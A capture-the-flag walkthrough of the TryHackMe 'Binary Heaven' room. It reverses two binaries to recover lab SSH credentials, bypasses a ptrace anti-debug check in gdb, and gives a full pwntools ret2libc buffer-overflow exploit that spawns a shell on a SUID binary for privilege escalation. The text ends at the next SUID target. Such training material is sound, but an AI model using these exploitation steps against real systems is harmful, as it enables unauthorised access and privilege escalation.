# Binary Heaven (Medium) - TryHackMe Walkthrough

Binary Heaven is a medium room available on [TryHackMe](https://tryhackme.com/room/binaryheaven). The machine requires a basic understanding of assembly code analysis (C and Go), debugging, binary exploitation, buffer overflow and Linux environment variables.

# Being worthy

The challenge starts with 2 binary files called `angels_A` and `angels_B`. A first analysis reveals that both are not stripped 64 bit ELF with some basic protections enabled. In particular, `angel_A` has NX and PIE, while `angel_B` has NX and canary set.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ ls -la
total 2136
drwxrwxr-x 2 giu giu    4096 Nov 17 02:03 .
drwxrwxr-x 3 giu giu    4096 Nov 17 02:03 ..
-rwxr-xr-x 1 giu giu   16944 Feb 26  2021 angel_A
-rwxr-xr-x 1 giu giu 2154865 Feb 26  2021 angel_B

┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ file angel_*       
angel_A: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=90a71dbbf2c94dc164a49328fb82f8fa914a9701, for GNU/Linux 3.2.0, not stripped
angel_B: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=Xd_LgpWItJBNJmN63lQy/oWW_4FYae77KCrbbrcIX/2pmyS7gUszdXBsoOAYWo/PyEjnQ2VYI7PIdiOmGXg, not stripped

┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ pwn checksec angel_*                     
[*] '/home/giu/Downloads/machine/credentials_1614324056485/angel_A'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[*] '/home/giu/Downloads/machine/credentials_1614324056485/angel_B'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

The most interesting (and unusual) thing is that `angel_B` is a Go compiled binary.

## Username (`angel_A`)

Starting from `angel_A`, let’s inspect what it does.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ chmod +x angel_A                                                                                                                                                                           
                                                                                                                                                                                       
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ ./angel_A

Say my username >> AAAAAAAAAAA

That is not my username!
```

The binary asks for username and checks if it is correct. `strings` utility seems to not reveal any username or interesting string, so we have to use a disassembler to analyze it.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ strings angel_A                                 
/lib64/ld-linux-x86-64.so.2
mgUa
exit
puts
stdin
printf
fgets
ptrace
__cxa_finalize
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Using debuggers? Here is tutorial https://www.youtube.com/watch?v=dQw4w9WgXcQ/n%22
[36m
Say my username >> 
[31m
That is not my username!
[32m
Correct! That is my name!
...
```

As we can see, the binary calls `ptrace` and checks if any debugger is attached to the process before asking for user input, interrupting execution if an attached debugger is discovered.



This type of control can be easily bypassed by setting a breakpoint right before `ptrace` call, jumping to the address where username is retrieved.

The decompiled section of code responsable of checking the username string is reported below.



Because username string is built runtime, the only thing we can do is execute step-by-step the `for` loop until it is finished and inspect the registers at each iteration to obtain the correct characters.

As we can see from the assembly code in the image below, the compare instruction is performed on `rda` and `rdx`, so those are the registers we have to deal with. In particular, we are interested in `rdx`, which will contain the username characters.



The plan is to set a breakpoint on the `cmp edx, eax` instruction and inspect the registers each time the breakpoint is reached. It is crucial that the loop does not break, which happens if the compare instruction fails, so every time that the breakpoint hits we have to force the two registers equals. 

To proceed with the described methodology, we have to set 2 breakpoints: 

1. The first to interrupt the execution before `ptrace` is called and jump to user input instruction 
2. The second to inspect `rdx` value for the correct character and avoid performing the compare instruction on not equal registers (which would break the loop and exit the program)

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ gdb angel_A                                                                                          
GNU gdb (Debian 17.2-1+b1) 17.2
....

pwndbg> start main
Temporary breakpoint 1 at 0x117d
...

pwndbg> disass main
Dump of assembler code for function main:
   0x0000555555555175 <+0>:     push   rbp
   0x0000555555555176 <+1>:     mov    rbp,rsp
   0x0000555555555179 <+4>:     sub    rsp,0x20
=> 0x000055555555517d <+8>:     mov    DWORD PTR [rbp-0x14],edi
...

pwndbg> break *0x0000555555555198
Breakpoint 2 at 0x555555555198
pwndbg> break *0x000055555555521f
Breakpoint 3 at 0x55555555521f
pwndbg> jump *0x00005555555551c3
Continuing at 0x5555555551c3.

Say my username >> AAAAAAAAAAAAA

Breakpoint 3, 0x000055555555521f in main ()
...
```

In `gdb`, the first breakpoint (`0x0000555555555198`) hits at the instruction before `ptrace` is called, while the second one (`0x000055555555521f`) hits at every compare in the for loop. The `jump` command simply skip the `ptrace` control. 

As reported below, using `info registers` command before the `cmp` instruction reveals the character value used in the current loop iteration (i.e. the right character to use in the username string to pass the check).

```
pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x6b                0x6b
rsi            0x41414141          0x41414141
rdi            0x7fffffffdc54      0x7fffffffdc54
rbp            0x7fffffffdc60      0x7fffffffdc60
rsp            0x7fffffffdc40      0x7fffffffdc40
r8             0x0                 0x0
r9             0x0                 0x0
r10            0x0                 0x0
r11            0x202               0x202
r12            0x2                 0x2
r13            0x7ffff7ffd000      0x7ffff7ffd000
r14            0x7fffffffdda0      0x7fffffffdda0
r15            0x0                 0x0
rip            0x55555555521f      0x55555555521f <main+170>
eflags         0x206               [ PF IF ]
cs             0x33                0x33
ss             0x2b                0x2b
ds             0x0                 0x0
es             0x0                 0x0
fs             0x0                 0x0
gs             0x0                 0x0
fs_base        0x7ffff7da3740      0x7ffff7da3740
gs_base        0x0                 0x0
pwndbg> set $rax = $rdx
pwndbg> continue
```

Now, we have to continue this process until the loop is finished, always forcing `rax = rdx` before the next breakpoint hits.

```
pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x6b                0x6b
...
pwndbg> set $rax = $rdx
pwndbg> continue

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x79                0x79
...
pwndbg> set $rax = $rdx
pwndbg> continue

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x6d                0x6d
...
pwndbg> set $rax = $rdx
pwndbg> continue

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x7e                0x7e
...
pwndbg> set $rax = $rdx
pwndbg> continue

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x68                0x68
...
pwndbg> set $rax = $rdx
pwndbg> continue

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x75                0x75
...
pwndbg> set $rax = $rdx
pwndbg> continue

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x6d                0x6d
...

pwndbg> info registers
rax            0x4d                0x4d
rbx            0x0                 0x0
rcx            0x7ffff7f8f760      0x7ffff7f8f760
rdx            0x72                0x72
...
pwndbg> set $rax = $rdx
pwndbg> continue

Continuing.

Correct! That is my name!                                                                                                                                                              
[Inferior 1 (process 63633) exited normally]
```

 After 8 iterations, we are able to reconstruct the final string.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ python3
Python 3.14.7 (main, Sep 13 2026, 08:30:29) [GCC 16.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> target_hex = [0x6b, 0x79, 0x6d, 0x7e, 0x68, 0x75, 0x6d, 0x72]
>>> print(target_hex)
[107, 121, 109, 126, 104, 117, 109, 114]
>>> username = "".join(chr(val) for val in target_hex)
>>> print(username)
kym~humr
```

Obviously, this is not the final username string, but the result of the calculations that the program executes on the username string itself. Looking again at the assembly code above, we can see that each character of the user input is xored with `0x04`, and value `0x08` is added to the result. This static operation can also be seen in the fact that when we inserted the letter ‘`A`’ (`0x41` in hex), `rax` always contained value `0x4d`. This means that the operations on the user input chars are hardcoded, and do not change among loop iterations, which makes the reversing process easier. 

To obtain the real username, we have to reverse the binary process, subtracting `0x08` and xoring with `0x04`.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ python3
Python 3.14.7 (main, Sep 13 2026, 08:30:29) [GCC 16.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> target_hex = [0x6b, 0x79, 0x6d, 0x7e, 0x68, 0x75, 0x6d, 0x72]
>>> username = "".join(chr((val - 8) ^ 4) for val in target_hex)
>>> print(username)
guardian
>>> exit

┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ ./angel_A                    

Say my username >> guardian

Correct! That is my name!
```

## Password (`angel_B`)

The binary shows a similar behavior to the previous one.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ chmod +x angel_B
                                                                                                 
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ ./angel_B
 
Say the magic word >> 
AAAAAAAAAAA

You are not worthy of heaven!
```

Analyzing the program decompiled code, we can see that the function responsible of checking if the password is correct is `runtime_memequal`. We also discover that the password length is 11.



So, the assembly code section we are interested in is the following.



As we can see, the `rax` register is loaded with the string `GOg0esGrrr!`, passed as argument to `runtime_memequal`. It is highly probable that this string is the final password itself, because it is directly compared with user input without any transformation. So, let’s give it a try.

```
┌──(giu㉿kali)-[~/Downloads/machine/credentials_1614324056485]
└─$ ./angel_B           
 
Say the magic word >> 
GOg0esGrrr!
 
Right password! Now GO ahead and SSH into heaven.
```

Now that we have both username and password, we can proceed accessing the target machine via ssh and retrieving the first flag.

```
guardian:GOg0esGrrr!
```

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ ssh guardian@10.114.137.154
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
guardian@10.114.137.154's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

84 packages can be updated.
2 updates are security updates.

Last login: Mon Mar  1 22:38:24 2021 from 127.0.0.1
guardian@heaven:~$ cd /home/guardian/
guardian@heaven:~$ ls 
.bash_history      .bashrc            guardian_flag.txt  .profile           .python_history    
.bash_logout       .cache/            .nano/             pwn_me             
guardian@heaven:~$ cat guardian_flag.txt 
THM{REDACTED}
```

# Return to the origins

In the home directory of the compromised user, we can find a new binary with SUID. Gaining a shell inside the binary lead to an horizontal privilege escalation to the user `binexgod`.

```
guardian@heaven:~$ ls -la
total 56
drwxr-x--- 4 guardian guardian  4096 Nov 17 10:47 .
drwxr-xr-x 5 root     root      4096 Mar  1  2021 ..
-rw-rw-r-- 1 guardian guardian     0 May  8  2021 .bash_history
-rw-r--r-- 1 guardian guardian   220 Mar  1  2021 .bash_logout
-rw-r--r-- 1 guardian guardian  3771 Mar  1  2021 .bashrc
drwx------ 3 guardian guardian  4096 Mar  4  2021 .cache
-rw-rw-r-- 1 guardian guardian   682 Nov 17 10:45 exploit.py
-rw-r--r-- 1 root     root        26 Mar 15  2021 guardian_flag.txt
drwxrwxr-x 2 guardian guardian  4096 Mar  4  2021 .nano
-rw-r--r-- 1 guardian guardian   655 Mar  1  2021 .profile
-rw-rw-r-- 1 guardian guardian     0 Nov 17 10:47 .pwn.conf
-rwsr-sr-x 1 binexgod binexgod 15772 May  8  2021 pwn_me
-rw------- 1 guardian guardian   228 May  8  2021 .python_history
```

In particular, we are dealing with a 32 bit ELF, compiled with some basic protections such as PIE and NX. I transferred the binary to my local Kali machine to analyze it more easily.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ scp guardian@10.114.137.154:/home/guardian/pwn_me .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
guardian@10.114.137.154's password: 
pwn_me                                                                                                                    100%   15KB  85.3KB/s   00:00    
                                                                                                                                                            
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ file pwn_me                     
pwn_me: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=09a0fc14e276c9e16015cc8efff3389f3e576ba6, for GNU/Linux 3.2.0, not stripped
                                                                                                                                                            
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ pwn checksec pwn_me                     
[*] '/home/giu/Downloads/machine/pwn_me'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Once executed, the binary prints an interesting message that seems to reveal the `system` function address.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ chmod +x pwn_me                     
                                                                                                                                                    
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ ./pwn_me
Binexgod said he want to make this easy.
System is at: 0xf7d4e000
AAAAAAAAAAAAAAAAA
```

Executing the binary again shows a different address (because ASLR is enabled) but with the same last 3 hex values of the previous execution. This is coherent with the 32 bit architecture, which handles memory locations in pages and not in byte.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ ./pwn_me
Binexgod said he want to make this easy.
System is at: 0xf7cec000
AAAAAA
```

With a forced page alignment, last 3 hex values of each address cannot change among different executions, even when ASLR is enabled.

Knowing `system` address, the most obvious attack we can think of a ret2libc. After analyzing the binary assembly code, we can spot an interesting function named `vuln`, invoked by `main`.



The `vuln` function simply prints the hint message and retrieve user input with the insecure `gets` function, exploitable for the buffer overflow, which is saved in a variable `s` long `0x20-0x8` bytes.



This means that we can overflow the `s` variable and overwrite the return address, hijacking the execution to `system` function and gaining a shell.

Two things are missing in order to complete this plan:

1. Discover the address of `/bin/sh` string to pass to `system` function
2. Understand how parameters are passed to a function in a x86 (32 bit) binary

## Calculate `libc` base address

To calculate appropriate `libc` offsets, it is crucial to execute the binary on the target server and note the last 3 hex character of the leaked address.

This way it is possible to use an [online libc database](https://libc.rip/) to discover the offset of `/bin/sh` string in reference to `libc` base.

```
guardian@heaven:~$ ./pwn_me 
Binexgod said he want to make this easy.
System is at: 0xf7db8950
```

As we can see in the image below, the database provides 50 candidates.



To select the appropriate one, let’s inspect the exact `libc` version used on the remote server.

```
guardian@heaven:~$ /lib32/libc.so.6
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu11.2) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.4.0 20160609.
Available extensions:
        crypt add-on version 2.1 by Michael Glad and others
        GNU Libidn by Simon Josefsson
        Native POSIX Threads Library by Ulrich Drepper et al
        BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```



In alternative, we could have extracted the offsets directly from `libc` file on the target machine.

```
guardian@heaven:~$ readelf -s /lib32/libc.so.6 | grep system
   245: 00110920    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003a950    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003a950    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
  
guardian@heaven:~$ strings -a -t x /lib32/libc.so.6 | grep "/bin/sh"
 15910b /bin/sh
```

After taking note of the offsets, we have to calculate `libc` base address.

```
libc_base_address = leaked_system_address - system_offset (0x3a950)
```

To obtain the `/bin/sh` string address we must simply add its offset to the calculated `libc` base address 

```
str_bin_sh_address = libc_base_address + str_bin_sh_offset (0x15910b)
```

## Passing command parameter to `system`

Using an [online guide](https://en.wikipedia.org/wiki/Calling_convention#x86_(32-bit)), it is possible to discover that on 32 bit binary the function calling convention states that parameters must be passed on stack.



## Exploit Building

Once gained every information needed, we can start building the exploit.

```
from pwn import *

context.binary = binary = ELF("./pwn_me", checksec=False)
#context.log_level = "debug"

p = process()
p.recvline()
output = p.recvline().split(b"at: ")[1]

leaked_system_address = int(output, 16)
print("leaked system address: " + str(hex(leaked_system_address)))

# using libc6-i386_2.23-0ubuntu11.2_amd64
system_address_offset = 0x3a950
str_bin_sh_offset = 0x15910b

ret = p32(0x0000100e)

libc_base_address = leaked_system_address - system_address_offset
str_bin_sh_address = libc_base_address + str_bin_sh_offset
print("libc base address: " + str(hex(libc_base_address)))
print("bin-sh string address: " + str(hex(str_bin_sh_address)))

payload  = b"A" * 0x20
payload += p32(leaked_system_address) + p32(0xdeadbeef) + p32(str_bin_sh_address)

p.sendline(payload)
p.interactive()
```

Executing the exploit lead to a shell as user `binexgod`.

```
guardian@heaven:~$ echo 'never' > /home/guardian/.cache/.pwntools-cache-3.5/update

guardian@heaven:~$ python3 exploit.py 
[+] Starting local process '/home/guardian/pwn_me': pid 2176
leaked system address: 0xf7d86950
libc base address: 0xf7d4c000
bin-sh string address: 0xf7ea510b
[*] Switching to interactive mode
$ whoami
binexgod
$ cd /home/binexgod
$ ls
binexgod_flag.txt  secret_of_heaven  vuln  vuln.c
$ cat binexgod_flag.txt
THM{REDACTED}
$
```

# Secrets of Heaven

In the `binexgod` user home directory, there is another binary with `root` SUID. Gaining a shell inside it lead to a complete pwn of the machine.

```
$ ls -la
total 112
drwxr-x---  9 binexgod binexgod 4096 May  8  2021 .
drwxr-xr-x  5 root     root     4096 Mar  1  2021 ..
-rw-rw-r--  1 binexgod binexgod    0 May  8  2021 .bash_history
-rw-r--r--  1 binexgod binexgod  220 Mar  1  2021 .bash_logout
-rw-r--r--  1 binexgod binexgod 3771 Mar  1  2021 .bashrc
-rw-r--r--  1 binexgod binexgod   20 Mar  1  2021 binexgod_flag.txt
drwx------ 12 binexgod binexgod 4096 Mar  4  2021 .cache
drwx------ 14 binexgod binexgod 4096 Mar  4  2021 .config
drwx------  3 binexgod binexgod 4096 May  8  2021 .dbus
-rw-r--r--  1 binexgod binexgod   25 Mar  3  2021 .dmrc
drwx------  2 binexgod binexgod 4096 Mar  3  2021 .gconf
drwx------  3 binexgod binexgod 4096 May  8  2021 .gnupg
-rw-------  1 binexgod binexgod 2862 May  8  2021 .ICEauthority
drwx------  3 binexgod binexgod 4096 Mar  3  2021 .local
drwxrwxr-x  2 binexgod binexgod 4096 Mar  8  2021 .nano
-rw-r--r--  1 binexgod binexgod  655 Mar  1  2021 .profile
-r-xr-xr-x  1 root     root     6580 Mar  4  2021 secret_of_heaven
-rw-r-----  1 binexgod binexgod    5 May  8  2021 .vboxclient-clipboard.pid
-rw-r-----  1 binexgod binexgod    5 May  8  2021 .vboxclient-display-svga-x11.pid
-rw-r-----  1 binexgod binexgod    5 May  8  2021 .vboxclient-draganddrop.pid
